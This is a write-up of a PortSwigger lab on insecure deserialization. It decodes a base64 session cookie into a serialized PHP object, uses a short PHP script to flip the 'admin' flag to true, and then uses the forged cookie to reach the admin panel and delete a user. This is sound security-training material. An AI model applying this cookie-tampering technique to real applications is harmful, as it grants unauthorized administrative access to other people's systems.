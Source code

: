 # Modifying serialized objects | Jan 10, 2023

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-modifying-serialized-objects), you'll learn: Modifying serialized objects! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab uses a serialization-based session mechanism and is vulnerable to privilege escalation as a result. To solve the lab, edit the serialized object in the session cookie to exploit this vulnerability and gain administrative privileges. Then, delete Carlos's account.

You can log in to your own account using the following credentials: `wiener:peter`

## Exploitation

**Login as user `wiener`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Insecure-Deserialization/Deserial-1/images/Pasted%20image%2020230110035303.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Insecure-Deserialization/Deserial-1/images/Pasted%20image%2020230110035322.png)

**Burp Suite HTTP history:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Insecure-Deserialization/Deserial-1/images/Pasted%20image%2020230110035339.png)

**When we successfully logged in, a new session cookie has been set:**

**URL decoded:**
```
Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjowO30=
```

As you can see, the last character is `=`, which is a padding character in base64!

**Let's base64 decode that:**
```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/Insecure-Deserialization]
└─# echo -n 'Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjowO30=' | base64 -d
O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:0;}
```

**As you can see, the decoded base64 string is a serialized PHP object!**

Let's break it down:

- `O:4:"User"` means there is an `User` object, and it's length is 4 characters long
- `2` means there are 2 attributes:
    - `s:8:"username"` means the **first attribute** is called `username`, and it's length is 8 characters long
        - `s:6:"wiener"` means `username` attribute value is `wiener`, and it's length is 6 characters long
    - `s:5:"admin"` means the **second attribute** is called `admin`, and it's length is 5 characters long
        - `b:0` means the `admin` attribute value is boolean value `0` (`false`)

**Armed with above information, we can write a PHP code to serialize and deserialize that PHP object:**
```php
<?php
    $deserializedObject = 'O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:0;}';

    $serializedObject = unserialize($deserializedObject);
    echo "[+] Serialized: \n";
    var_dump($serializedObject);
?>
```

```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/Insecure-Deserialization]
└─# php serialization.php
[+] Serialized: 
object(__PHP_Incomplete_Class)#1 (3) {
  ["__PHP_Incomplete_Class_Name"]=>
  string(4) "User"
  ["username"]=>
  string(6) "wiener"
  ["admin"]=>
  bool(false)
}
```

**Now, to gain administrator privilege, we can just change the `admin` attribute to `true` (`1`):**
```php
<?php
    $deserializedObject = 'O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:1;}';

    $serializedObject = unserialize($deserializedObject);
    echo "[+] Serialized: \n";
    var_dump($serializedObject);

    echo "[+] Base64 encoded: \n" . base64_encode($deserializedObject);
?>
```

```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/Insecure-Deserialization]
└─# php serialization.php 
[+] Serialized: 
object(__PHP_Incomplete_Class)#1 (3) {
  ["__PHP_Incomplete_Class_Name"]=>
  string(4) "User"
  ["username"]=>
  string(6) "wiener"
  ["admin"]=>
  bool(true)
}
[+] Base64 encoded: 
Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjoxO30=
```

**Let's change the session cookie with our newly created PHP serialized object in base64 encoded:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Insecure-Deserialization/Deserial-1/images/Pasted%20image%2020230110041522.png)

**Then refresh the page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Insecure-Deserialization/Deserial-1/images/Pasted%20image%2020230110041536.png)

We can access to the admin panel!

Let's delete user `carlos`:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Insecure-Deserialization/Deserial-1/images/Pasted%20image%2020230110041556.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Insecure-Deserialization/Deserial-1/images/Pasted%20image%2020230110041607.png)

# What we've learned:

1. Modifying serialized objects